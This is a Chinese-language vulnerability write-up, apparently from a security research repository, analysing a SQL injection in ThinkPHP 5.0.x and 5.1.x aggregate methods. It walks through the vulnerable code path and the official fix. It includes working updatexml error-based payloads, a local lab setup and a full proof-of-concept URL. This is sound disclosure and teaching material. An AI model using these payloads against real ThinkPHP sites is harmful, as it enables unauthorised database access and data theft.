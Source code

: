 # 5.1.3<=ThinkPHP5<=5.1.25 sql注入漏洞

### 一、漏洞简介

本篇文章，将分析 ThinkPHP 中存在的 SQL注入 漏洞（所有 Mysql 聚合函数相关方法均存在注入）。本次漏洞存在于所有 Mysql 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 SQL 语句，最终导致 SQL注入漏洞 的产生。

漏洞概要

### 二、漏洞影响

5.0.0<=ThinkPHP<=5.0.21

5.1.3<=ThinkPHP5<=5.1.25

### 三、复现过程

不同版本 payload 需稍作调整：

 5.0.0~5.0.21 、 5.1.3～5.1.10 ：
 
 
```
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```

5.1.11～5.1.25 ：


```
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```

### 漏洞环境

通过以下命令获取测试环境代码：


```
composer create-project --prefer-dist topthink/think=5.1.25 tpdemo
```

将 composer.json 文件的 require 字段设置成如下：


```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.25"
},
```

然后执行 composer update ，并将 application/index/controller/Index.php 文件代码设置如下：


```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $options = request()->get('options');
        $result = db('users')->max($options);
        var_dump($result);
    }
}
```

在 config/database.php 文件中配置数据库相关信息，并开启 config/app.php 中的 app_debug 和 app_trace 。创建数据库信息如下：


```php
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty');
```

**poc**


```
http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```

访问链接，即可触发 SQL注入漏洞 。（没开启 app_debug 是无法看到 SQL 报错信息的）

![](images/15893486440386.png)


漏洞分析

首先在官方发布的 5.1.26 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![](images/15893486495390.png)


我们可以查阅其 commit 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![](images/15893486557805.png)


首先，用户可控数据未经过滤，传入 Query 类的 max 方法进行聚合查询语句构造，接着调用本类的 aggregate 方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 SQL注入 问题。我们看到 aggregate 方法又调用了 Mysql 类的 aggregate 方法，在该方法中，我们可以明显看到程序将用户可控变量 $field ，经过 parseKey 方法处理后，与 SQL 语句进行了拼接。下面我们就来具体看看 parseKey 方法。

![](images/15893486615046.png)


parseKey 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过 parseKey 方法处理后，程序又回到了上图的 $this->value() 方法中，该方法会调用 Builder 类的 select 方法来构造 SQL 语句。这个方法应该说是在分析 ThinkPHP 漏洞时，非常常见的了。其无非就是使用 str_replace 方法，将变量替换到 SQL 语句模板中。这里，我们重点关注 parseField 方法，因为用户可控数据存储在 $options['field'] 变量中并被传入该方法。

![](images/15893486677756.png)


进入 parseField 方法，我们发现用户可控数据只是经过 parseKey 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 SQL 语句模板里，导致 SQL注入漏洞 的发生

![](images/15893486738331.png)


**漏洞修复**

官方的修复方法是：当匹配到除了 字母、点号、星号 以外的字符时，就抛出异常。

![](images/15893486814816.png)


**攻击总结**

最后，再通过一张攻击流程图来回顾整个攻击过程。

![](images/15893486892880.png)


参考链接

https://github.com/Mochazz/ThinkPHP-Vuln